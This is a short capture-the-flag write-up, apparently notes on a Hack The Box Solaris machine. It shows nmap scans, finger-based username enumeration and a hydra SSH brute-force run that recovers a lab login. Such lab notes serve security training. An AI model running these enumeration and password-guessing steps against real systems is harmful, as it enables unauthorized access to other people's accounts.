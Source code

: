 #HackTheBox #solaris 
# enum
## _nmap_
```
PORT      STATE SERVICE  VERSION
79/tcp    open  finger?
111/tcp   open  rpcbind  2-4 (RPC #100000)
515/tcp   open  printer
6787/tcp  open  ssl/http Apache httpd 2.4.33 ((Unix) OpenSSL/1.0.2o mod_wsgi/4.5.1 Python/2.7.14)
22022/tcp open  ssh      OpenSSH 7.5 (protocol 2.0)
```
```
PORT    STATE SERVICE VERSION
79/tcp  open  finger?
|_finger: No one logged on\x0D
| fingerprint-strings: 
|   GenericLines: 
|     No one logged on
|   GetRequest: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help: 
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest: 
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq, TerminalServerCookie: 
|_    Login Name TTY Idle When Where
111/tcp open  rpcbind 2-4 (RPC #100000)
515/tcp open  printer
```

## _finger enum_
└─# 
```
./finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.129.162.55
```
	sammy@10.129.162.55: sammy           ???            ssh          <Apr 13, 2022> 10.10.14.13         ..
	sunny@10.129.162.55: sunny           ???            ssh          <Apr 13, 2022> 10.10.14.13 

# bruteforce
└─# 
```
hydra -L user.txt -P pass.txt ssh://10.129.162.55:22022
```
	Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
	Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-21 12:42:22
	[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
	[DATA] max 15 tasks per 1 server, overall 15 tasks, 15 login tries (l:3/p:5), ~1 try per task
	[DATA] attacking ssh://10.129.162.55:22022/
	[22022][ssh] host: 10.129.162.55   login: sunny   password: sunday